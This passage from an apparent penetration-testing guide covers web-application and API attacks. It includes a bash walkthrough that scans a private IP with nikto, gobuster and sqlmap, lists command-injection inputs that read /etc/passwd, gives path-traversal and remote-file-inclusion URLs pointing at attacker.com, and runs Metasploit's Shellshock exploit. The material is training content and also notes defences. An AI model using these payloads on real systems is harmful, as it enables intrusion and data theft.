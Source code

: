 2. **Web Application Attacks**:
   - Attack vectors: Input validation flaws, authentication weaknesses
   - Vulnerabilities: OWASP Top 10 (injection, XSS, CSRF, etc.)
   - Tools: Burp Suite, OWASP ZAP, SQLmap
   - Techniques: Injection attacks, authentication bypass
   - Prevention: Secure coding, input validation, output encoding

3. **API Exploitation**:
   - Attack vectors: Weak authentication, excessive permissions
   - Vulnerabilities: OWASP API Top 10
   - Tools: Postman, custom scripts, API-focused scanners
   - Techniques: Parameter tampering, rate limiting bypass
   - Prevention: API gateway, proper authentication, rate limiting

```bash
# Example: Basic web server and application exploitation

# Step 1: Scan web server for vulnerabilities
nikto -h http://192.168.1.100

# Step 2: Directory and file enumeration
gobuster dir -u http://192.168.1.100 -w /usr/share/wordlists/dirb/common.txt

# Step 3: Check for SQL injection
sqlmap -u "http://192.168.1.100/page.php?id=1" --dbs

# Step 4: Test for command injection
# Try entering in web forms or URL parameters:
# ; ls -la
# & whoami
# | cat /etc/passwd

# Step 5: Check for file inclusion vulnerabilities
# Try accessing:
# http://192.168.1.100/page.php?file=../../../etc/passwd
# http://192.168.1.100/page.php?file=http://attacker.com/malicious.txt

# Step 6: Use Metasploit for web server exploitation
msfconsole -q
use auxiliary/scanner/http/dir_scanner
set RHOSTS 192.168.1.100
run

use exploit/multi/http/apache_mod_cgi_bash_env_exec  # Shellshock
set RHOSTS 192.168.1.100
set TARGETURI /cgi-bin/vulnerable.cgi
exploit
```

### 5.4 Database Service Exploitation

Attacking database servers:
